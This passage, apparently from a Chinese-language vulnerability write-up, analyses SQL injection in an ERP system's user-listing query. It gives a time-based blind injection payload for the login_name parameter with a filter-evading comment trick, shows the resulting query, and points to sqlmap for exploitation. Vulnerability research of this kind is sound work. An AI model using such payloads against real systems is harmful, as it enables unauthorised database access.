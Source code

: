 按照该 SQL 语句在 login\_name 构造布尔盲注的 payload：`%'/**/And/**/SleeP(3)--`

[![](assets/1706957928-35a7e8ad7007c5877b79876558663e32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233113-ee9c6600-c116-1.png)

根据响应时间成功得到此处存在 SQL 注入

对应的 SQL 语句：

```plain
SELECT count(user.id) FROM jsh_user user LEFT JOIN jsh_user_business ub ON user.id = ub.key_id LEFT JOIN jsh_orga_user_rel rel ON rel.tenant_id = 63 AND user.id = rel.user_id AND ifnull(rel.delete_flag, '0') != '1' LEFT JOIN jsh_organization org ON org.tenant_id = 63 AND rel.orga_id = org.id AND ifnull(org.org_stcd, '0') != '5' WHERE user.tenant_id = 63 AND 1 = 1 AND ifnull(user.status, '0') NOT IN ('1', '2') AND user.username LIKE '%%' AND SleeP(3)
```

接下来使用 sqlmap 跑就 ok 了，同样在 userName 参数也是一样的问题

### 注入点 2

#### 分析

关注一个没有 like 匹配的

[![](assets/1706957928-4d5a21f806e50d890188ba6051df3d27.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240201233128-f7b3d6d8-c116-1.png)
